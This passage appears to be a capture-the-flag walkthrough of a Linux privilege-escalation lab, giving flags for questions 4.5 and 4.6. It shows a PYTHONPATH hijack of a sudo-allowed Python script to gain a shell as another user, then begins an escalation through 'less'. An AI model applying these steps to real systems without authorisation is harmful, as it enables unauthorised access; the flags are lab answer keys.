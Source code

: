 <p>4.5. What is jordan's flag?<br>
<code>jordan{fcbc4b3c31c9b58289b3946978f9e3c3}</code></p>

```bash
reza@linuxagency:~$ sudo -l
Matching Defaults entries for reza on linuxagency:
    env_reset, env_file=/etc/sudoenv, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User reza may run the following commands on linuxagency:
    (jordan) SETENV: NOPASSWD: /opt/scripts/Gun-Shop.py
reza@linuxagency:~$ sudo -l -l       
Matching Defaults entries for reza on linuxagency:
    env_reset, env_file=/etc/sudoenv, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User reza may run the following commands on linuxagency:

Sudoers entry:
    RunAsUsers: jordan
    Options: setenv, !authenticate
    Commands:
	/opt/scripts/Gun-Shop.py
reza@linuxagency:/tmp$ touch shop.py
touch shop.py
reza@linuxagency:/tmp$ echo "import os" > shop.py
echo "import os" > shop.py
reza@linuxagency:/tmp$ echo "os.system('/bin/bash')" >> shop.py
echo "os.system('/bin/bash')" >> shop.py
reza@linuxagency:/tmp$ cat shop.py
cat shop.py
import os
os.system('/bin/bash')
reza@linuxagency:/tmp$ sudo -u jordan PYTHONPATH=/tmp/ /opt/scripts/Gun-Shop.py
<-u jordan PYTHONPATH=/tmp/ /opt/scripts/Gun-Shop.py
jordan@linuxagency:~$ ls
ls
examples.desktop  flag.txt
jordan@linuxagency:~$ cat flag.txt
cat flag.txt
}3c3e9f8796493b98285b9c13c3b4cbcf{nadroj
jordan@linuxagency:~$ 
```

<br>

<p>4.6. What is ken's flag?<br>
<code>ken{4115bf456d1aaf012ed4550c418ba99f}</code></p>

```bash
jordan@linuxagency:~$ sudo -l
sudo -l
Matching Defaults entries for jordan on linuxagency:
    env_reset, env_file=/etc/sudoenv, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jordan may run the following commands on linuxagency:
    (ken) NOPASSWD: /usr/bin/less
jordan@linuxagency:~$ 
jordan@linuxagency:~$ ls | sudo -u ken less
```
